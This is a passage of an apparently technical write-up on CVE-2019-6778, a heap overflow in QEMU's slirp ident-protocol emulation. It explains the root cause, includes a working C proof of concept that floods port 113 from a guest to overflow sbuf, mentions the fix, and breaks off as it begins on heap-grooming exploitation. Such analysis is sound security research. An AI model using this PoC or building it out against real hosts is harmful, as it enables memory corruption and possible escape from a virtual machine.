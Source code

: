Before calling tcp_emu, it will verify whether the remaining space in sbuf is sufficient, but because the data is copied but the corresponding length is not added to sb_cc when simulating the ident protocol, the space calculated by sbspace is not the actual remaining space of sbuf .

So if the user keeps sending data to port 113, it will cause overflow in sbuf.

The poc is as follows:

```c
// poc.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <netdb.h>
#include <arpa/inet.h>
#include <sys/socket.h>

int main() {
     int s, ret;
     struct sockaddr_in ip_addr;
     char buf[0x500];

     s = socket(AF_INET, SOCK_STREAM, 0);
     ip_addr.sin_family = AF_INET;
     ip_addr.sin_addr.s_addr = inet_addr("10.0.2.2"); // host IP
     ip_addr.sin_port = htons(113); // vulnerable port
     ret = connect(s, (struct sockaddr *)&ip_addr, sizeof(struct sockaddr_in));
     memset(buf, 'A', 0x500);
     while(1) {
         write(s, buf, 0x500);
     }
     return 0;
}
```

Run `sudo nc -lvv 113` in the host, and then run poc in the guest. Note that it is not necessary to connect to the host here, as long as any IP that the guest can connect to is fine.

## CVE-2019-6778 vulnerability fix

![1](./assets/1.png)

The bug fix is simple, verify that there is enough space left in sbuf before copying data.

## Exploitation

Since the place where the overflow occurs is a pure buffer, the data before and after it is unstable in actual operation, so an appropriate means is needed to control the heap.

### Malloc Primitive

##### IP fragmentation (IP fragmentation)
